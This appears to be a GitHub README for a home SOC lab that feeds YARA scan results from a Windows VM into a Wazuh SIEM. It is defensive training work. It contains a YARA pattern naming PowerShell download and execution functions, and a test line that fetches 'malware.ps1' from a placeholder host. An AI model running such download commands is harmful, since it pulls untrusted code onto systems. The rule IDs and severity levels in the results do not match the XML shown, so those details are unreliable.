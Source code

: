 Integrating YARA Threat Hunting with Wazuh SIEM for Malware Detection

Author: Babatunde Qodri – SOC Analyst

This project demonstrates how YARA, a powerful open-source malware pattern-matching tool, can be seamlessly integrated with Wazuh SIEM to detect and respond to malicious activities in real time.

The setup simulates a real-world Security Operations Center (SOC) within a safe lab environment, combining endpoint threat hunting, log analysis, and alert correlation across multiple virtual machines.

<img width="976" height="658" alt="image4" src="https://github.com/user-attachments/assets/3fdcc0af-9bd2-474c-b6e3-7cc295c07830" />

📘 Overview – What I Built and Why

Threat actors continuously evolve their tactics to evade detection. This project was designed to showcase how open-source tools like YARA and Wazuh can work together to improve malware detection and visibility in a SOC environment.

Using custom YARA rules, I simulated the detection of malicious PowerShell activity and configured Wazuh SIEM to receive, analyze, and visualize alerts in real time.

Through this hands-on implementation, I strengthened my skills in:

Threat Hunting · SIEM Integration · Endpoint Monitoring · Incident Detection & Response

⚙️ Architecture Diagram

Figure 1: Workflow showing Windows Agent (YARA + Wazuh Agent) sending detection logs to Wazuh Manager (Ubuntu), which displays alerts on the SIEM dashboard.

💻 Setup & Configuration
Environment Overview
Component	Description
Windows 10 VM	Acts as the monitored endpoint running YARA scans
Ubuntu Server	Hosts the Wazuh Manager and SIEM dashboard
PowerShell	Automates YARA scans and log generation
YARA v4.5.4	Performs rule-based malware pattern detection
Wazuh SIEM	Correlates logs and visualizes detections
EICAR File	Safe test file for malware simulation
Step 1 – YARA Installation
# Install YARA in Windows
C:\Tools\YARA\yara

# Verify installation
& "C:\Tools\YARA\yara\yara64.exe" --version

Step 2 – Create Custom YARA Rule
# Create a YARA test folder
mkdir C:\YARA_Test

# Create and edit custom rule
notepad C:\YARA_Test\custom_rule.yar


Rule logic example:

rule Suspicious_PowerShell_Script
{
    strings:
        $a = "Invoke-WebRequest"
        $b = "FromBase64String"
        $c = "Start-Process"
    condition:
        any of them
}


This rule detects PowerShell scripts containing suspicious functions often used in malware or attack scripts.

Step 3 – Create and Scan Test Script
# Create test script
notepad C:\YARA_Test\test_script.ps1

# Add this line
Invoke-WebRequest -Uri "http://example.com/malware.ps1"

# Execute scan
& "C:\Tools\YARA\yara\yara64.exe" C:\YARA_Test\custom_rule.yar C:\YARA_Test


✅ Result: YARA successfully identified suspicious patterns, validating the rule’s detection logic.

🧪 Detection Simulation – Integrating YARA with Wazuh
Step 1 – Redirect YARA Output to Wazuh Agent Logs
mkdir "C:\Program Files (x86)\ossec-agent\yara_logs"
& "C:\Tools\YARA\yara\yara64.exe" C:\YARA_Test\custom_rule.yar C:\YARA_Test > "C:\Program Files (x86)\ossec-agent\yara_logs\yara_output.log"

Step 2 – Create Custom Wazuh Rule
<group name="yara,">
    <rule id="110050" level="10">
        <decoded_as>yara</decoded_as>
        <description>YARA Detection: Suspicious PowerShell Script</description>
        <group>yara,malware-detection,</group>
        <match>Suspicious_PowerShell_Script</match>
    </rule>
</group>


Save as:
/var/ossec/etc/rules/yara_custom_rules.xml

Validate syntax:

sudo /var/ossec/bin/wazuh-logtest

📊 Results / Dashboard Analysis

✅ Detection Summary

Stage	Description
YARA	Detected suspicious PowerShell string patterns
Wazuh Agent	Forwarded YARA detection logs
Wazuh Manager	Parsed and matched custom rule ID 110051
SIEM Dashboard	Displayed “Possible malware detected by YARA” alert

Figure 2: High-severity (Level 12) alert confirming successful integration between YARA and Wazuh.

🔍 Incident Summary
Time	Rule ID	Severity	Description	Action Taken
2025-10-29 13:37	110051	12 (High)	Possible malware detected by YARA	Verified and validated rule correlation
💡 Challenges & Lessons Learned

Challenge: Initial rule misconfiguration prevented Wazuh from parsing YARA logs.
Solution: Adjusted log path and validated XML syntax with wazuh-logtest.

Lesson: Learned how to write and tune custom Wazuh rules for alert correlation.

Outcome: Gained deep insight into endpoint-to-SIEM data flow and detection logic.

🚀 Future Enhancements

Integrate AlienVault OTX for automatic threat intelligence enrichment.

Expand detection coverage using Sigma or Suricata rules.

Automate YARA scanning using PowerShell task scheduler.

🧰 Tools Used
Tool	Purpose
YARA v4.5.4	Malware pattern matching
Wazuh SIEM	Log correlation and visualization
PowerShell	Log automation and script execution
Ubuntu Server	Wazuh Manager host
Windows 10 VM	Endpoint for YARA testing
EICAR Test File	Safe malware simulation
📚 References

VirusTotal YARA Repository

Wazuh Documentation

EICAR Test File

MITRE ATT&CK Framework

🧩 Professional Takeaway

This project demonstrates full end-to-end SOC workflow — from detection logic to alert validation — proving practical capability in:

Endpoint security monitoring

SIEM correlation

Custom rule engineering

Threat simulation and analysis

“From detection to alert — this is what SOC Analysts do daily.”

✅ Folder Structure Reference
Integrating-YARA-with-Wazuh/
├── README.md
├── docs/
│   ├── architecture_diagram.png
│   ├── wazuh_dashboard_alert.png
│   └── incident_table.png
├── rules/
│   └── yara_custom_rules.xml
├── logs/
│   └── yara_output.log
